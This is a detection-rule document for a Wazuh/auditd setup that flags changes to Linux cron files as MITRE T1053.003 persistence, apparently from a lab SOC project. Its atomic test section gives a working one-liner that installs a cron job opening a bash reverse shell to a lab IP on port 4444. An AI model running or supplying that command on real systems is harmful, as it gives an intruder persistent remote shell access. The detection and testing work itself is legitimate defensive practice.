

# Rule 100018: Cron Configuration Modification Detection
 
## Metadata
| Field | Value |
|-------|-------|
| Rule ID | `100018` |
| Severity | High |
| MITRE ATT&CK Tactic | Persistence |
| MITRE ATT&CK Technique | T1053.003 — Scheduled Task/Job: Cron |
| Data Source | auditd (via Wazuh Linux agent) |
| Platform | Linux |
| Status | Active |
 
---
 
## Threat Context
 
### Description
Fires when a process modifies any cron configuration file or directory on a Linux host. The rule detects changes to user crontabs (`/var/spool/cron/`), the system-wide `/etc/crontab`, the `/etc/cron.d/` directory, and the hourly, daily, weekly, and monthly cron directories. Any write or attribute change on these paths is a strong indicator of persistence attempt, since cron is the canonical scheduled-execution mechanism on Linux and modifications outside normal deployment activity are rare.
 
### Real-World Usage
Cron-based persistence is one of the most consistently observed post-compromise techniques on Linux systems. It appears across the full spectrum of adversary sophistication — from opportunistic cryptocurrency miners to nation-state operators. Documented examples include the Rocke and TeamTNT cryptomining campaigns that install cron jobs to re-download and re-execute their payloads after cleanup attempts, the Kinsing malware family which installs redundant cron entries in multiple locations for resilience against partial detection, and multiple APT operators (APT41, DarkVishnya) who use cron entries to maintain long-term access on compromised Linux infrastructure.
 
### Why This Matters
Persistence is the mechanism by which a temporary intrusion becomes a durable one. Without persistence detection, an attacker who is discovered and evicted can simply return via their cron entry the next time the schedule triggers. Rule 100017 catches credential harvesting; rule 100015 catches the brute force; but only persistence detection catches the mechanism by which the attacker survives eviction. In production incident response, missing a persistence artefact frequently means the attacker regains access days or weeks after initial containment.
 
---
 
## Detection Strategy
 
### Logic
The detection uses auditd file watches on all standard cron configuration locations. Any write, append, or attribute change on these paths generates a kernel-level audit event tagged with the `cron_modification` key. A Wazuh custom rule consumes any audit event with this key and promotes it to a High-severity alert with MITRE T1053.003 mapping.
 
The auditd approach is more robust than parsing `/var/log/cron.log` because it operates at syscall level, catching modifications regardless of the tool used (crontab, direct file edit, scripted append, package manager, configuration management). It also catches attempts to disable or replace cron files, not just additions.
 
### Data Source Requirements
- Source: auditd via Wazuh Linux agent (`<localfile>` block reading `/var/log/audit/audit.log`)
- Required fields: `audit.key`, `audit.exe`, `audit.file.name`, `audit.uid`
- Prerequisites:
  - auditd installed and running
  - Cron path watches deployed in `/etc/audit/rules.d/persistence-detection.rules` (see Implementation section)
  - Wazuh Linux agent configured with audit log ingestion
  - Wazuh built-in ruleset group `audit` operational
  
### Thresholds
Not applicable — this rule fires per matched event. Every cron modification generates one alert. Aggregation is intentionally avoided because cron modifications are individually significant; a single persistence attempt at 3 AM is exactly what the SOC L1 needs to see distinctly.
 
**Level 10 (High)** — one level below the Critical severity of rules 100016, 100017, and 100019. Cron modifications occur legitimately during system administration, package updates, and configuration management, making them slightly less unambiguous than credential file access or authorized_keys modification. The level supports prominent dashboard visibility while acknowledging the legitimate baseline.
 
---
 
## Implementation
 
### Prerequisite — auditd watch configuration
 
Deploy the following watch rules on each Linux host under detection. 
 
```bash
sudo tee /etc/audit/rules.d/persistence-detection.rules > /dev/null <<'EOF'
# Watch cron directories and files for any modification
-w /var/spool/cron/ -p wa -k cron_modification
-w /etc/crontab -p wa -k cron_modification
-w /etc/cron.d/ -p wa -k cron_modification
-w /etc/cron.hourly/ -p wa -k cron_modification
-w /etc/cron.daily/ -p wa -k cron_modification
-w /etc/cron.weekly/ -p wa -k cron_modification
-w /etc/cron.monthly/ -p wa -k cron_modification
EOF
```

Notes on the watch configuration:
- `-p wa` monitors write and attribute changes (creation, modification, deletion of cron entries, and permission changes).
- The seven paths cover all standard cron locations: user crontabs, the system crontab file, and the five time-based system cron directories.
- All watches share a single key (`cron_modification`) rather than distinct keys per path. This design simplifies the Wazuh rule while still allowing per-path drill-down via the `audit.file.name` field.
### Wazuh Rule (XML)
 
```xml
<group name="audit,custom,">
  <rule id="100018" level="10">
    <if_group>audit</if_group>
    <field name="audit.key">cron_modification</field>
    <description>Cron configuration modified - $(audit.exe) modified $(audit.file.name) by uid $(audit.uid)</description>
    <mitre>
      <id>T1053.003</id>
    </mitre>
    <group>attack,persistence,cron_modification,</group>
  </rule>
</group>
```
 
Key structural decisions:
- `<if_group>audit</if_group>` restricts matching to events processed by the Wazuh built-in audit ruleset.
- `<field name="audit.key">cron_modification</field>` matches only events tagged with the persistence-detection key.
- Description interpolates the executing binary, the modified file path, and the acting user for immediate triage context.

---
 
## Atomic Testing
 
### Test Command
From an SSH session on the target host, reproduce the cron-based reverse shell persistence from Scenario 1:
 
```bash
(crontab -l 2>/dev/null; echo "*/10 * * * * /bin/bash -c 'bash -i >& /dev/tcp/10.10.66.10/4444 0>&1' 2>/dev/null") | crontab -
```
 
### Expected Result
One or more alerts in `wazuh-alerts-*` with:
- `agent.name: ws-dev-02`
- `agent.ip: 10.10.20.20`
- `rule.id: 100018`
- `rule.level: 10`
- `rule.description` containing the modified file path (e.g., "Cron configuration modified - /usr/bin/crontab modified /var/spool/cron/crontabs/arodriguez by uid 1000")

**Note on alert count:** The `crontab` command internally creates temporary files and performs multiple syscalls to update the target crontab. A single `crontab -` invocation may generate 3-4 audit events (temp file creation, atomic move, permission change), producing 3-4 alerts of rule 100018 in the SIEM. This is expected behaviour; the alerts describe distinct kernel-level events during the single logical modification.
 
### Validation Screenshot

 
---
 
## False Positives
 
### Known FP Scenarios
- Package installations that install cron entries (`apt install` for packages with scheduled tasks like `logrotate`, `mlocate`, `unattended-upgrades`).
- Configuration management tools (Ansible, Puppet, Chef, Salt) deploying cron entries during scheduled runs.
- Administrators legitimately editing cron entries during maintenance windows or deploying new scheduled jobs.
- Docker or container runtimes that provision cron entries as part of container initialisation.
  
### Mitigations
- Correlate alerts with change management windows and CI/CD pipeline execution logs. Modifications during authorised change windows can be de-prioritised.
- Exclude known configuration management tool executables via `<field name="audit.exe" negate="yes">/usr/bin/ansible|/opt/puppetlabs</field>` in a variant of the rule. This must be maintained as tooling changes.
- Cross-reference the modified path against expected changes: `/etc/cron.d/` additions during package installation are expected; user crontab modifications (`/var/spool/cron/crontabs/`) outside admin windows are suspicious.
- Time-of-day analysis at the dashboard layer: cron modifications during business hours by known admin accounts are lower-risk than off-hours modifications by service accounts or unexpected users.
---
 
## References
- [MITRE ATT&CK T1053.003 — Scheduled Task/Job: Cron](https://attack.mitre.org/techniques/T1053/003/)
- [Linux auditd documentation — File and directory watches](https://man7.org/linux/man-pages/man8/auditctl.8.html)
- [Kinsing malware analysis (Aqua Security)](https://blog.aquasec.com/threat-alert-kinsing-malware-container-vulnerability)
- [TeamTNT cryptomining campaign analysis (Trend Micro)](https://www.trendmicro.com/en_us/research/22/e/analysis-of-a-new-teamtnt-tsunami-malware-variant.html)
- Internal reference: `docs/04-attack-scenarios/01-full-kill-chain-vlan-dev.md` (Phase 7 — the cron persistence sequence this rule detects)
